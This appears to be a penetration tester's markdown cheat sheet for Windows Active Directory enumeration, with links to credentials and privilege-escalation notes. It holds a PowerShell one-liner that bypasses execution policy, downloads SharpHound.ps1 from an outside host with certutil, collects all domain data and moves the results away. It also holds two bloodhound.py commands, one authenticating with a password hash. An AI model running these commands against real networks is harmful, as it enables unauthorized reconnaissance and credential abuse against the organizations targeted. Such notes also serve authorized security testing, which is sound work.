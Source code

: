 
```bash
██╗    ██╗██╗███╗   ██╗██████╗  ██████╗ ██╗    ██╗███████╗
██║    ██║██║████╗  ██║██╔══██╗██╔═══██╗██║    ██║██╔════╝
██║ █╗ ██║██║██╔██╗ ██║██║  ██║██║   ██║██║ █╗ ██║███████╗
██║███╗██║██║██║╚██╗██║██║  ██║██║   ██║██║███╗██║╚════██║
╚███╔███╔╝██║██║ ╚████║██████╔╝╚██████╔╝╚███╔███╔╝███████║
 ╚══╝╚══╝ ╚═╝╚═╝  ╚═══╝╚═════╝  ╚═════╝  ╚══╝╚══╝ ╚══════╝
```

## Quick Enumeration
💪💥😎 [[🤧 Username XOR Password]] 💪💥 [🗝 Credentials](🗝%20Credentials.md)  💪💥 [⏫Privesc](⏫Privesc.md)


#bloodhound #sharphound
```powsershell 
powershell -ep bypass -c "certutil.exe -urlcache -f http://192.168.0.1/tools/windows/privesc/bloodhound/SharpHound.ps1 SharpHound.ps1; Import-Module .\SharpHound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix 'audit'; mv  *_BloodHound.zip L:\ ;"
```
```bash
python3 bloodhound.py  -u <username> -p <password> -ns $DC01 -d <domain> -c all --dns-tcp
``` 
```bash
python3 bloodhound.py  -u <username> --hashes :<hash> -ns $DC01 -d <domain> -c all --dns-tcp
``` 

